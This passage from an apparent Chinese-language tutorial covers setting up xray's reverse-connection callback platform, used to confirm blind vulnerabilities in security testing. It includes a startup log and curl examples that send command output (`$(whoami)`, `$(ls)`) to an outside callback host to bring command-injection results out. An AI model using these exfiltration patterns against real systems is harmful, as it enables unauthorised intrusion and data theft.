 修改完成之后，运行 `./xray reverse`，就可以看到反连平台启动了。

```
[INFO] 2019-09-08 09:25:02 +0800 [default:config.go:160] loading config from config.yaml
reverse server base url: http://140.143.224.171:4445, token: imtoken1
reverse server webUI: http://140.143.224.171:4445/cland/
[DBUG] 2019-09-08 09:25:03 +0800 [default:reverse.go:40] reverse http server started, base url: http://140.143.224.171:4445, token: imtoken1
[INFO] 2019-09-08 09:25:03 +0800 [reverse:http_server.go:118] starting reverse http server
```

访问提示的地址 `http://140.143.224.171:4445/cland/` 就可以看到反连平台的的界面了。点击 `生成一个 URL` 就会提示输入 token。

![](https://storage.virusdefender.net/blog/images/796/15679060423634.jpg)

### 反连平台的 HTTP 访问记录功能

先按照页面上的提示先测试下反连平台的功能，运行 `curl -v http://140.143.224.171:4445/p/89acfe/H34v/`

```bash
$ curl -v http://140.143.224.171:4445/p/89acfe/H34v/
*   Trying 140.143.224.171...
* TCP_NODELAY set
* Connected to 140.143.224.171 (140.143.224.171) port 4445 (#0)
> GET /p/89acfe/H34v/ HTTP/1.1
> Host: 140.143.224.171:4445
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; object-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self'; media-src 'self'; frame-src 'self'; font-src 'self' data:; connect-src 'self'
< Content-Type: application/json
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< X-Xss-Protection: 1; mode=block
< Date: Sun, 08 Sep 2019 01:28:16 GMT
< Content-Length: 22
<
* Connection #0 to host 140.143.224.171 left intact
{"code":0,"data":null}%
```

然后在左边的 `HTTP` 一栏中就可以看到了访问记录

![](https://storage.virusdefender.net/blog/images/796/15679061607483.jpg)

而且反连平台支持在 url 后面随意添加参数，比如 `http://140.143.224.171:4445/p/89acfe/H34v/$(whoami)`，这样在测试一些命令执行漏洞的时候，就很方便的将一些执行结果带出来。

如果 url 位置的长度不够，还可以使用 POST 方法。比如 `curl -v http://140.143.224.171:4445/p/89acfe/H34v/ -d "$(ls)"` 就可以看到访问记录是这样的。

![](https://storage.virusdefender.net/blog/images/796/15679064342320.jpg)
